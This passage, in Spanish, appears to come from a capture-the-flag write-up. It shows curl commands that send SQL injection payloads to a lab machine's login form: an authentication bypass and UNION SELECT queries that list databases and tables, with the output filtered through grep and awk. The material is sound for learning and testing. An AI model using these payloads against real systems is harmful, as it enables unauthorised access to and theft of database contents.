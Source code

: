 Si recordamos, las inyecciones se reproducen junto a la palabra **Welcome**, ósea, que podemos usar **grep** para que nos muestre solo esa parte de la respuesta:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' or 1=1-- -&password=test123" | grep "Welcome"
                    <h2 class="h4">Welcome admintest</h2>
```
Ahí está.

Pero nosotros solo queremos la pura respuesta de la inyección, entonces, usaremos **awk** para solamente obtener ese campo y eliminamos las etiquetas también con **awk**:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' or 1=1-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
admintest
```
Genial, así queda mucho mejor.

Vamos a probar las mismas inyecciones que ya aplicamos con **BurpSuite**.

La primera que aplicamos, fue una inyección con la que obtuvimos el nombre de la BD actual:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,database()-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
main
```
Funciona bien.

Ahora, obtengamos las BD existentes:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
information_schema:main:
```
Aquí usamos `concat()` para que la respuesta sea más entendible.

Igual podemos obtener todas las tablas de las BDs:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,concat(table_name, ':') from information_schema.tables-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
ADMINISTRABLE_ROLE_AUTHORIZATIONS:APPLICABLE_ROLES:CHARACTER_SETS:CHECK_CONSTRAINTS:COLLATIONS:COLLATION_CHARACTER_SET_APPLICABILITY:COLUMNS:COLUMNS_EXTENSIONS:COLUMN_PRIVILEGES:COLUMN_STATISTICS:ENABLED_ROLES:ENGINES:EVENTS:FILES:INNODB_BUFFER_PAGE:INNODB_BUFFER_PAGE_LRU:INNODB_BUFFER_POOL_STATS:INNODB_CACHED_INDEXES:INNODB_CMP:INNODB_CMPMEM:INNODB_CMPMEM_RESET:INNODB_CMP_PER_INDEX:INNODB_CMP_PER_INDEX_RESET:INNODB_CMP_RESET:INNODB_COLUMNS:INNODB_DATAFILES:INNODB_FIELDS:INNODB_FOREIGN:INNODB_FOREIGN_COLS:INNODB_FT_BEING_DELETED:INNODB_FT_CONFIG:INNODB_FT_DEFAULT_STOPWORD:INNODB_FT_DELETED:INNODB_FT_INDEX_CACHE:INNODB_FT_INDEX_TABLE:INNODB_INDEXES:INNODB_METRICS:INNODB_SESSION_TEMP_TABLESPACES:INNODB_TABLES:INNODB_TABLESPACES:INNODB_TABLESPACES_BRIEF:INNODB_TABLESTATS:INNODB_TEMP_TABLE_INFO:INNODB_TRX:INNODB_VIRTUAL:KEYWORDS:KEY_COLUMN_USAGE:OPTIMIZER_TRACE:PARAMETERS:PARTITIONS:PLUGINS:PROCESSLIST:PROFILING:REFERENTIAL_CONSTRAINTS:RESOURCE_GROUPS:ROLE_COLUMN_GRANTS:ROLE_ROUTINE_GRANTS:ROLE_TABLE_GRANTS:ROUTINES:SCHEMATA:SCHEMATA_EXTENSIONS:SCHEMA_PRIVILEGES:STATISTICS:ST_GEOMETRY_COLUMNS:ST_SPATIAL_REFERENCE_SYSTEMS:ST_UNITS_OF_MEASURE:TABLES:TABLESPACES:TABLESPACES_EXTENSIONS:TABLES_EXTENSIONS:TABLE_CONSTRAINTS:TABLE_CONSTRAINTS_EXTENSIONS:TABLE_PRIVILEGES:TRIGGERS:USER_ATTRIBUTES:USER_PRIVILEGES:VIEWS:VIEW_ROUTINE_USAGE:VIEW_TABLE_USAGE:blog:blog_comments:user:
```
Son demasiadas y solo nos importa la **BD main**.
